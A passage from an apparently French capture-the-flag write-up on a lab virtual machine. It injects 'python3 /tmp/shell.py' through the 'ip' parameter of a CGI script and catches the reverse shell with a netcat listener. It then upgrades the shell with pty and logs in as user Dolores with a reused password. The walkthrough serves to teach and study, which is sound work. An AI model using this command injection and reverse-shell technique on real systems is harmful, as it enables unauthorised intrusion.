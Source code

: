 ```console
root@blinils:~# export WEST='JUNK; python3 /tmp/shell.py'

root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=$WEST" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'

--nothing--
```

Dans un autre terminal, on écoute attentivement sur le port 12345... et c'est gagné, un shell apparaît !

```console
root@blinils:~# nc -lvp 12345
listening on [any] 12345 ...
192.168.56.101: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 47366
/bin/sh: 0: can't access tty; job control turned off

$ id; uname -r -v
uid=33(www-data) gid=33(www-data) groups=33(www-data)
4.18.0-17-generic #18~18.04.1-Ubuntu SMP Fri Mar 15 15:27:12 UTC 2019

$ python3 -c 'import pty; pty.spawn("/bin/bash")'

www-data@ubuntu:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Dolores dolor sit amet, consectetur buffer overflum ?

Lecture recommandée : _[Fixing a raw shell with Python and stty](https://nullsec.us/fixing-a-raw-shell/)_ sur le site NullSecurity (@BeanBagKing).

Les scripts habituels [__LinEnum.sh__](https://github.com/rebootuser/LinEnum) et [__linux-exploit-suggester.sh__](https://github.com/mzet-/linux-exploit-suggester) ne donnent a priori rien de concret ; la version Ubuntu installée date tout juste de mars 2019. Fort heureusement, notre chère Dolores utilise le même mot de passe partout ! C'est cool d'avoir un shell, mais ce serait tout de même bien mieux avec un autre compte Unix... sans rancune, ```www-data``` !

```console
www-data@ubuntu:/tmp$ su - Dolores
su - Dolores
Password: loop

$ id
id
uid=1002(Dolores) gid=1002(Dolores) groups=1002(Dolores)

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

Dolores@ubuntu:~$ id
id
uid=1002(Dolores) gid=1002(Dolores) groups=1002(Dolores)

Dolores@ubuntu:~$ sudo -l
sudo -l
[sudo] password for Dolores: loop

Sorry, user Dolores may not run sudo on ubuntu.
```
